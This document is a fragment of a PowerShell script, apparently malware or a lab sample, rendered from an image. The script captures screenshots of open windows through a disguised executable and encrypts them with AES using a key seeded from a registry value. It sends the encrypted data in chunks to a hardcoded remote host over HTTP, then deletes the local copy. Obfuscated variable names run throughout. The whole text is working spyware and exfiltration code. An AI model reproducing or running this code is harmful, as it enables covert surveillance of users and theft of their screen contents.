 ```
    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR"
    }
    if ($68263A.Length -ne 16) {
        throw "ERROR"
    }

    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length);
    [byte[]] $C81F44 = $88DB2B.IV + $42B0F0
    $88DB2B.Dispose()
    $res = [Convert]::ToBase64String($C81F44)
    return $res
}

# $processArray = Get-Process | Where-Object {$_.mainWindowTitle} | Select-Object ProcessName
$processArray = Get-Process | Where-Object { $_.MainWindowTitle } | Select-Object MainWindowTitle

foreach ($process in $processArray) {
    $tmp = $process.MainWindowTitle
    $filePath = "C:\Users\Public\Pictures\tmp.png"
    $command = "C:\Windows\SysWOW64\chkmnt.exe $filepath $tmp"
    Invoke-Expression $command

    $regValue = "HKCU:\Control Panel\Desktop"
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })

    $base64Encoded = Encrypt-File $filePath $key $IV
    $base64Encoded = $base64Encoded[2]
    $chunkSize = 1024
    $totalChunks = [math]::Ceiling($base64Encoded.Length / $chunkSize)
    $baseUrl = 'http://10.21.69.4:8081'

    for ($i = 0; $i -lt $totalChunks; $i++) {
        $startIndex = $i * $chunkSize; $length = [math]::Min($chunkSize, $base64Encoded.Length - $startIndex)
        $chunk = $base64Encoded.Substring($startIndex, $length)
        $chunkUrlEncoded = [System.Net.WebUtility]::UrlEncode($chunk)
        $fullUrl = "${baseUrl}?vBRqSiWY$i=$chunkUrlEncoded"
    Write-Output $fullUrl
        $response = Invoke-RestMethod -Uri $fullUrl -Method Get
    }

    Remove-Item -Path $filePath
}
```